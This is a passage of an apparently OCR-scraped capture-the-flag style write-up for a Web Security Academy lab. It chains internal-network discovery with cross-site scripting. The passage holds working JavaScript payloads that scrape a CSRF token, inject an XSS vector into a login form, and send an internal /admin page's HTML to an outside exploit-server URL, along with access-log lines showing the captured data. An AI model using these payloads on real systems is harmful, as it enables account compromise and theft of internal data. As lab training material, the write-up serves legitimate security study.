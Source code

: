 response:
10.0.4.147      2022-08-20 13:52:55 +0000 "GET /?ip=192.168.0.113:8080&code=%3C!DOCTYPE%20html%3E%0A%3Chtml...
...HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.101 Safari/537.36"

we have the internal ip adress that returned a reponse with html page:
192.168.0.113:8080

2. scan for XSS vulnarbility

```javascript
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url, collaboratorURL){
	fetch(url).then(r => r.text().then(text => {
		xss(url, text, '"><img src='+collaboratorURL+'?foundXSS=1>');
	}))
}

fetchUrl("http://192.168.0.113:8080", "https://exploit-0a21005804569346c1bc01e201df00bd.web-security-academy.net/");
</script>

```
access logs:
10.0.4.147      2022-08-20 14:04:05 +0000 "GET /?foundXSS=1 HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.101 Safari/537.36"

3. get code for page viaaccess log:

<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url, collaboratorURL){
	fetch(url).then(r=>r.text().then(text=>
	{
		xss(url, text, '"><iframe src=/admin onload="new Image().src=\''+collaboratorURL+'?code=\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)">');
	}
	))
}

fetchUrl("http://192.168.0.113:8080", "https://exploit-0a21005804569346c1bc01e201df00bd.web-security-academy.net/");
</script>

access log:
    10.0.4.147      2022-08-20 14:12:32 +0000 "GET /?code=%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Cscript%20src%3D%22%2Fresources%2Flabheader%2Fjs%2FlabHeader......0%20%20%20%3C%2Fsection%3E%0A%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%0A%0A HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.101 Safari/537.36"
